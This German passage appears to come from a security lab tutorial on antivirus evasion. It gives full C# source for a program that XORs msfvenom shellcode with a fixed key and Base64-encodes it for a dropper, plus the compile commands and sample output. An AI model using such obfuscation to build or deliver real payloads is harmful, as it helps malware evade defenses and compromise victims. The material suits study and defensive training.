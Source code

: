 Bevor wir unseren tatsächlichen Payload erstellen, werden wir ein Programm erstellen, das den von msfvenom generierten Shellcode nimmt und ihn nach Belieben verschlüsselt. In diesem Fall werden wir den Payload zuerst mit einem benutzerdefinierten Schlüssel XORieren und dann mit Base64 codieren. Hier ist der vollständige Code für den Encoder (Sie finden diesen Code auch auf Ihrem Windows-Rechner unter C:\Tools\CS Files\Encryptor.cs):

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

Der Code ist ziemlich einfach und wird einen verschlüsselten Payload generieren, den wir in den finalen Payload einbetten werden. Denken Sie daran, die Variable `buf` durch den Shellcode zu ersetzen, den Sie mit msfvenom generiert haben.

Um den Encoder zu kompilieren und auszuführen, können wir die folgenden Befehle auf dem Windows-Rechner verwenden:
```cmd
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```
